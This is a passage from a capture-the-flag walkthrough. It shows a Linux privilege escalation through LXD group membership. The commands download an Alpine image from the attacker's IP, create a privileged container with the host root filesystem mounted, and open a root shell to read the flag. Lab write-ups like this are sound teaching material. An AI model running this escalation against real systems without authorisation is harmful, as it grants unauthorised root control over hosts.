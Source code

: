 Now, we'll download this to the victim machine, and import it:

```
$ wget http://10.10.xx.xx/alpine.tar.gz

$ lxc image import ./alpine.tar.gz --alias myimage

$ lxd init

[Hit enter until this completes]
```

Now, we need to set up the image:

```
$ lxc init myimage mycontainer -c security.privileged=true

$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

$ $ lxc list                      
+-------------+---------+------+------+-----------+-----------+                                                      
|    NAME     |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |                                                                                                                                                                            
+-------------+---------+------+------+-----------+-----------+                                                      
| mycontainer | STOPPED |      |      | CONTAINER | 0         |                                                                                                                                                                            
+-------------+---------+------+------+-----------+-----------+   

```

Finally, we can start the container, and get a root shell:

```
$ lxc start mycontainer

$ lxc exec mycontainer /bin/sh

~ # ^[[30;5Rid                                                                                                   
uid=0(root) gid=0(root)  
```

Since we mounted our file system on the alpine images /mnt/root, we can grab the flag:

```
~ # ^[[60;5Rls -lah /mnt/root/root
ls -lah /mnt/root/root
total 40K    
drwx------    6 root     root        4.0K Jun 16 13:59 .
drwxr-xr-x   20 root     root        4.0K May 19 10:28 ..
lrwxrwxrwx    1 root     root           9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Dec  5  2019 .bashrc
drwx------    2 root     root        4.0K May 19 22:23 .cache
drwxr-xr-x    3 root     root        4.0K May 19 11:50 .local
-rw-r--r--    1 root     root         161 Dec  5  2019 .profile
-rw-r--r--    1 root     root          66 May 21 13:46 .selected_editor
drwx------    2 root     root        4.0K Jun 16 14:00 .ssh
-rw-r--r--    1 root     root          33 Jun 26 16:08 root.txt
drwxr-xr-x    3 root     root        4.0K May 19 10:41 snap
```

There's our flag!




